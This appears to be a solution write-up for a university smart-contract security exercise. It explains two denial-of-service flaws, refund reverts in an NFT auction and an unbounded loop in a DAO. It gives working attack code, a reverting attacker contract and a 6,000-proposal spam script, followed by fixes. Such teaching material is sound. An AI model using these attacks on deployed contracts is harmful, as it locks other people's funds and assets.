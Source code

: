 # Smart Contracts Exercise 07: Out of Gas -- Solution

The solved Exercise 07 - Out of Gas can be found in this [GitLab repository](https://gitlab.fel.cvut.cz/radovluk/smart-contracts-exercises/-/tree/main/07-Out-of-Gas/solution/solution-code?ref_type=heads).

## Solution to Task 1: NFT Auction Sabotage

This task demonstrates a "DoS with Unexpected Revert" vulnerability in smart contracts. The vulnerability exists in the `NFTAuction` contract's `endAuction` function, which attempts to refund all previous bidders by iterating through the bidders array. 

### The Vulnerability

The vulnerability stems from the following code in the `endAuction` function:

```solidity
// Process refunds for all bidders
for (uint i = 0; i < bidders.length; i++) {
    address bidder = bidders[i];
    uint256 amount = pendingReturns[bidder];
    if (amount > 0) {
        // Setting the pending amount to 0 before sending to prevent re-entrancy
        pendingReturns[bidder] = 0;

        // Send the refund
        payable(bidder).transfer(amount);
        emit RefundProcessed(bidder, amount);
    }
}
```

The issue is that the function uses `transfer()` to send ETH to each bidder. If any of these transfers fail (for example, if the recipient is a contract without a `receive()` or `fallback()` function that accepts ETH), the entire transaction will revert, preventing the auction from being concluded.

### The Attack Strategy

The solution exploits this vulnerability through a malicious contract that:

1. Places a valid bid to be added to the bidders list
2. Implements a `receive()` function that deliberately reverts when it receives ETH

This ensures that when the auction tries to conclude, it will attempt to refund our malicious contract, which will reject the payment and cause the entire transaction to fail.

```solidity
contract NFTAuctionAttacker {
    // Error for rejection
    error RejectPayment();
    
    // The NFT auction contract to attack
    INFTAuction public nftAuction;
    
    constructor(address _nftAuction) {
        nftAuction = INFTAuction(_nftAuction);
    }
    
    // Function to place a bid on the auction
    function attack() external payable {
        nftAuction.bid{value: msg.value}();
    }
    
    // This function will revert when the auction tries to refund this contract
    // causing the entire endAuction transaction to fail
    receive() external payable {
        revert RejectPayment();
    }
}
```

To execute the attack, we deploy the attacker contract and bid through it:

```javascript
// Deploy our attacker contract
const NFTAuctionAttacker = 
  await ethers.getContractFactory("NFTAuctionAttacker", player);
const attackerContract = 
  await NFTAuctionAttacker.deploy(nftAuction.target);

// Place a bid through our attacker contract
// We bid more than the current highest bid to ensure we're included
await attackerContract.connect(player).attack({
    value: ethers.parseEther("2.9") // Higher than the last bid of 2.8 ETH
});
```

The attack successfully locks the auction, since any attempt to call `endAuction()` will revert when trying to refund our malicious contract. As a result:

1. The NFT remains locked in the auction contract
2. All bid funds are stuck in the auction contract
3. No one can conclude the auction
4. The 50 ETH bid from bidder3 becomes irrelevant since the auction can never end

### Mitigations

To prevent this type of attack, the contract should implement the Pull-over-Push payment pattern:

```solidity
// Instead of pushing payments, the endAuction function should only:
// 1. Mark the auction as ended
// 2. Transfer the NFT to the highest bidder
// 3. Transfer funds to the seller

// Bidders should call a separate function to withdraw their refunds:
function withdraw() external returns (bool) {
    uint256 amount = pendingReturns[msg.sender];
    if (amount > 0) {
        pendingReturns[msg.sender] = 0;
        (bool success, ) = payable(msg.sender).call{value: amount}("");
        if (!success) {
            pendingReturns[msg.sender] = amount; // Restore on failure
            return false;
        }
    }
    return true;
}
```

## Solution to Task 2: Save the DAO Funds From the Cats

This task demonstrates a "DoS with Block Gas Limit" vulnerability. The DAO contract has an unbounded loop in its `getWinningProposals()` function, which is called by `executeProposals()`.

### The Vulnerability

The vulnerability stems from the following code in the `getWinningProposals()` function:

```solidity
function getWinningProposals() public view returns (uint256[] memory) {
    // Create a temporary array to store winning proposal IDs (max size is all proposals)
    uint256[] memory temp = new uint256[](proposals.length);
    uint256 count = 0;

    // Find all winning proposals in a single loop
    for (uint256 i = 0; i < proposals.length; i++) {
        Proposal storage proposal = proposals[i];

        // Check if the proposal has passed and is ready for execution
        if (
            !proposal.executed &&
            proposal.voteCount > memberCount / 2 &&
            block.timestamp > proposal.createdAt + VOTING_PERIOD
        ) {
            temp[count] = i;
            count++;
        }
    }

    // Create the final array of exactly the right size
    uint256[] memory winningProposals = new uint256[](count);
    for (uint256 i = 0; i < count; i++) {
        winningProposals[i] = temp[i];
    }

    return winningProposals;
}
```

The issue is that this function iterates through *all* proposals. If there are too many proposals, this function will consume too much gas and eventually exceed the block gas limit, preventing the execution of any proposal.

### The Attack Strategy

The solution exploits this vulnerability by creating thousands of proposals to make the `getWinningProposals()` function too expensive to execute:

```javascript
// Create many proposals to cause a DoS attack
console.log("Creating many proposals to trigger a DoS attack...");

// Generate descriptions programmatically
const generateProposalDescription = (index) =>
    `Anti-Cat Proposal #${index}!`;

// Empty calldata for the proposals
const emptyCalldata = "0x";

// The number of proposals needed to cause a DoS
const NUM_PROPOSALS = 6000;
const BATCH_SIZE = 500;

console.log(`Adding ${NUM_PROPOSALS} proposals in batches of ${BATCH_SIZE}...`);

for (let batchStart = 0; batchStart < NUM_PROPOSALS; batchStart += BATCH_SIZE) {
    for (let i = 0; i < BATCH_SIZE && batchStart + i < NUM_PROPOSALS; i++) {
        const description = generateProposalDescription(batchStart + i);

        // Create a proposal with minimum value (to player address)
        await dao.connect(player).createProposal(
            description,
            player.address,
            1, // Minimal amount
            emptyCalldata
        );
    }

    const currentCount = await dao.getProposalCount();
    console.log(`Progress: ${currentCount} proposals created so far`);
}
```

After adding 6,000 proposals to the DAO, any attempt to call `executeProposals()` will exceed the block gas limit, making it impossible to execute the cat charity proposal. The attack doesn't even need these proposals to pass - simply having a large number of proposals forces the `getWinningProposals()` function to iterate through all of them, requiring too much gas.

### Mitigations

To prevent this type of attack, smart contracts should avoid unbounded loops and implement proper pagination:

```solidity
// Instead of processing all proposals at once, use batch processing:
function executeProposalRange(uint256 startIndex, uint256 endIndex) external onlyMember {
    require(endIndex <= proposals.length, "Invalid range");
    require(endIndex > startIndex, "Invalid range");
    
    // Only iterate through a limited range
    for (uint256 i = startIndex; i < endIndex; i++) {
        Proposal storage proposal = proposals[i];
        
        // Process only if it's a winning proposal
        if (!proposal.executed &&
            proposal.voteCount > memberCount / 2 &&
            block.timestamp > proposal.createdAt + VOTING_PERIOD) {
            
            // Execute the proposal
            // ... (execution logic)
        }
    }
}
```
